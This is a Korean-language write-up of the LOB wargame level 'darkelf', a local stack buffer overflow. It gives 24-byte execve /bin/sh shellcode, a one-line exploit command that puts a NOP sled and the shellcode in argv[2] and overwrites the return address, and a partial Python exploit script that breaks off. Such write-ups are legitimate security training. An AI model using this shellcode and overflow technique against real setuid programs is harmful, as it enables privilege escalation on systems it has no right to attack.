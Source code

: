```c
```



------

### 0x01. Analysis

wolfman 문제에서 추가된 부분은 argv[1]의 크기가 48보다 크면 안된다. 그리고 buffer가 0으로 초기화 된다.

argv[1]의 크기를 제한하고 있으니 argv[2]에 쉘코드를 넣거나, argv[1]에 쉘코드를 넣고,  
buffer 주소가 아닌 argv[1]의 주소를 이용해도 된다.

- buffer 배열 크기 40byte
- 환경변수 영역 0으로 초기화 (egghunter)
- RET 첫 1byte '\xbf'로 시작
- **argv[1] 48byte 길이 미만**
- strcpy를 이용하여 argv[1] 인자 값을 buffer 배열로 복사
- buffer 배열 40byte 0으로 초기화

**이번엔 argv[2]에 shellcode를 넣고 문제를 풀어보겠다.**

------

### 0x02. Exploit

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

argv[2]에 NOP슬라이드와 쉘코드를 넣기 위해 core덤프를 통해 해당 주소를 구해오자.


<img src="http://eliez3r.synology.me/assets/blog/writeup/lob/06.darkelf/01.png" width="850px">{:.rounded.shadow}

<img src="http://eliez3r.synology.me/assets/blog/writeup/lob/06.darkelf/02.png" width="600px">{:.rounded.shadow}

argv[2]의 주소는 0xbffffbde로 확인되었다.

<br>

argv[2] 주소와 shellcode를 넣고 exploit을 진행하면 문제가 풀린다.

<img src="http://eliez3r.synology.me/assets/blog/writeup/lob/06.darkelf/03.png" width="850px">{:.rounded.shadow}

```shell
[wolfman@localhost wolfman]$ ./darkelf `python -c 'print "A"*44+"\xde\xfb\xff\xbf"'` `python -c 'print "\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```

-----

```python
import os
import struct

append = lambda x, y: x + y
p32 = lambda x: struct.pack("<I", x)

target = "/home/wolfman/darkelf"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
argv2_addr = 0xbffffbde

payload1 = "\x90"*44
payload1 = append(payload1, p32(argv2_addr))

```